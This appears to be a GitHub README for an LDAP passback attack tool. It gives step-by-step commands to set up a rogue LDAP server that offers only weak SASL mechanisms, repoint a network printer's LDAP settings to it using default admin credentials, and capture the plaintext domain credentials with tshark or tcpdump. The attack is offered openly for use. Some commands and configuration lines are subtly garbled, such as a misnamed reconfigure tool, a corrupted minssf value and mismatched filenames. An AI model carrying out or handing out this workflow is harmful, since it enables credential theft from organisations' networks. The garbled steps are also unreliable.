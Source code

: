 # LDAP Passback

In case a printer (or something similar) has an LDAP account, but use the SASL authentication family instead of SIMPLE, the classic LDAP passback exploitation with a nc server will not be sufficient to retrieve the credentials in clear text. Instead, use a custom LDAP server that only offer the weak PLAIN and LOGIN protocols. This Docker permits to operate with weak protocols.

### 1) Setup rogue LDAP server

    docker buildx build -t ldap-passback .
    docker run --rm -ti -p 389:389 ldap-passback

### 2) Listen with tshark to capture plain-text credentials

    tshark -i any -f "port 389" -Y "ldap.protocolOp == 0 && ldap.simple" -e ldap.name -e ldap.simple -Tjson
  
## Requirements: 

#### Initial access to the internal network (example: plugging in a rogue device in a boardroom)

#### Gain access to a device's configuration where the LDAP parameters are specified. (Example: the web interface of a network printer)

#### They have usually default credentials (admin:admin, admin:password, etc.)

#### Host a rogue LDAP server:

#### sudo systemctl enable slapd

#### sudo delay-reconfigure -p low slapd

#### 1: No

#### 2: Enter target domain

#### 3: Organization name

#### 4: Any admin password

#### 5: Set MDB as the LDAP database

#### 6: No 

#### 7: Yes

#### 8: Create new ldif file

### Example: 

##### #dcSaslSecProps.ldif

##### dn: cn=config

##### replace:olcSaslSecProps

##### olcSaslSecProps: noanonymous,minssf=Qpasscred

#### minssf = No protection

#### noanonymous = Disables anonymous login

#### olcSaslSecProps = Specifies the SASL security properties

#### 9: sudo ldapmodify -Y EXTERNAL -H ldap:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

#### 10: Verify with: ldapsearch -H ldap:// -x -LLL -s base -b " " supportedSASLmechanisms)

#### 11: Capture LDAP credentials

#### sudo tcpdump -SX -i TARGET_INTERFACE tcp port 389

### We should get credentials in plain text.
